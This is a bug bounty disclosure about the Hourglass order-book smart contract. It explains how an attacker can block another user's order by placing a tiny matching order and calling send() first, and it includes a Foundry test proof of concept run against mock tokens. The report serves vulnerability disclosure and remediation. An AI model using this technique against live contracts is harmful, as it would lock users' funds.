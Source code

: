 > Disclaimer: This bug was reported for a different project that was also named *Hourglass* — a CLOB protocol — and is *not* related to the current Hourglass BBP on Immunefi. That previous Hourglass project was removed and banned from the platform by the Immunefi team due to unresponsiveness and failure to pay security researchers (#MeToo xD). Hope you enjoy reading this report — thanks!

## Attackers can easily owerrite users' Orders data in the OrderBook due to the usage of risky `keys` in the `Order` mapping

### Description
The keys used in this important mapping book to store the users' order data, are very dangerous, as they can be easily overwritten by an attackers to cause harm to the users.
```solidity
    //Orderbook (chain_id,source_token,destination_token)
    mapping(uint256 => mapping(address => mapping(address => Pair))) internal book;
```
### Vulnerability Details
When a user is going to place a takers order by invoking `PlaceTakers()`, it will provide `sell_token`, `buy_token`, `lz_cid` & `_quantity` as the function input. `sell_token`, `buy_token` & `lz_cid` will be used to store user's data in the orderbook:
```solidity
        Pair storage selected_pair = book[lz_cid][sell_token][buy_token];
```        
This same mapping will be used everywhere to fetch user's data and execute his takers order. Like in this `send()` function, which is used to execute users orders:
```solidity
    function send(address sell_token, address buy_token, uint256 lz_cid) public nonReentrant {
@>      Pair storage selected_pair = book[lz_cid][sell_token][buy_token];
        require(!selected_pair.isAwaiting, "!await lz inbound msg");
        require(block.timestamp - uint256(selected_pair.index.timestamp) >= settings.epochspan, "!await timestamp"); //@
        require(address(this).balance >= 2 * settings.MINGAS, "!gasLimit send");
        resolve_epoch(sell_token, buy_token, lz_cid);

        selected_pair.isAwaiting = true;
    }
```
If we look at the `send()` function, there is an important check which makes sures that, the pair on this spoke isn't waiting for an inbound layer zero message (or in other words, its not already resolved/sent)
```solidity
        require(!selected_pair.isAwaiting, "!await lz inbound msg");
```        
If it is already sent or its waiting for an inbound LZ then the trx gets revert, Notice, the `send()` function also sets it to true after invoking `resolve_epoch()`.

### Attack Vector
Now, this clearly means that an attacker can create a same order like any user's order (same buyToken, sellToken & chainId) but with less quantity tokens, this will overwrite user's pair and then the attacker will call the `send()` function, which will set pair's `isAwaiting` value to `true`, then the user will never gonna be able to execute `send()` with his pair.

For more clarity, Let's consider this:
- Ali creates a taker order for 10,000 USDC from ARB to USDT on ETH
- Shaheen notices Ali's big order, so he places a taker order of 100 USDC from ARB to USDT on ETH.
- Ali's & Shaheen's pair in the orderbook mapping will be same (esp IsAwaiting bool wise)
- Now after epochspan, Shaheen will call the send() which will set the pair's IsAwaiting to true.
- Ali calls the send() with the pair, but his call will revert "!await lz inbound msg"
This exactly is what the PoC demonstrates.

### Impact Details
- Loss of Funds.
- DoS.
- Assets Freeze in a contract permanently.
Loss of Funds for the Users, as the `PlaceTaker()` function transfers tokens from the user to the contract, and as now users are not gonna be able to call `send()` then those tokens will be permanently stuck in the contract.

### Recommended Mitigation
Add a key in the Pair/book mapping, which cannot be replicated easily like the tokens quantity or the sender's address to make it absolutely secure. Thanks!

### Proof of Concept
```solidity
// SPDX-License-Identifier: UNLICENSED pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol"; import {MockERC20} from "./Mocks/MockER20.sol"; import {Spoke} from "./../src/hourglass/Multichain.sol"; import "forge-std/console.sol";

contract SpokeTest is Test { Spoke public spoke; MockERC20 public token; address Ali = address(3); address Shaheen = address(5);

function setUp() public {
    spoke = new Spoke(address(12345), 12345);
    token = new MockERC20("TOKEN", "TKN", 18);
}

function test_placeTaker_OverrideProblems_Poc() public {
    token.mint(Ali, 7 ether);
    token.mint(Shaheen, 2 ether);

    address sell_token = address(token);
    address buy_token = address(1);
    uint256 lz_cid = 1122;
    uint96 quantityA = 5 ether;

    vm.startPrank(Ali);
    vm.deal(Ali, 1 ether);
    spoke.placeTaker{value: 1 ether}(sell_token, buy_token, lz_cid, quantityA);
    vm.stopPrank();
    bool await1 = spoke.getAwait(sell_token, buy_token, lz_cid);
    assertEq(await1, false);

    uint96 quantityB = 0.1 ether;
    vm.startPrank(Shaheen);
    vm.deal(Shaheen, 1 ether);
    spoke.placeTaker{value: 1 ether}(sell_token, buy_token, lz_cid, quantityB);
    vm.stopPrank();
    bool await2 = spoke.getAwait(sell_token, buy_token, lz_cid);
    assertEq(await2, false);

    vm.prank(Shaheen);
    spoke.send(sell_token, buy_token, lz_cid);
    bool await3 = spoke.getAwait(sell_token, buy_token, lz_cid);
    assertEq(await3, true);

    vm.prank(Ali);
    vm.expectRevert("!await lz inbound msg");
    spoke.send(sell_token, buy_token, lz_cid);
    }
}
```
About the Coded PoC;
Make sure to add the Mock Contracts to run the PoC. Mock Contracts can be created using this guide: https://medium.com/sphere-audits/a-complete-guide-to-erc20-fuzz-and-invariant-testing-using-foundry-23b06888b5fd. Also to make the PoC easy and straightforward, we omitted out these lines: 78, 80, 81, 723 & 727, As our main focus is to see the working of the contract's state.
> ```solidity
> For PoC to work make sure to remove the spoke.getAwait(sell_token, buy_token, lz_cid) calls in the tests OR add this view function in the Multichain.sol / Spoke contract:

>     function getAwait(address sell_token, address buy_token, uint256 lz_cid) public view returns (bool await) {
>         Pair storage selected_pair = book[lz_cid][sell_token][buy_token];
>         return selected_pair.isAwaiting;
>     }
> ```
> I added this getAwait() in the main contract, just for my help, you guys can do the same or remove all the spoke.getAwait() calls from the tests, it can be removed and the PoC will still work as one send() will pass & the other send() will still revert and thats enough to showcase the PoC.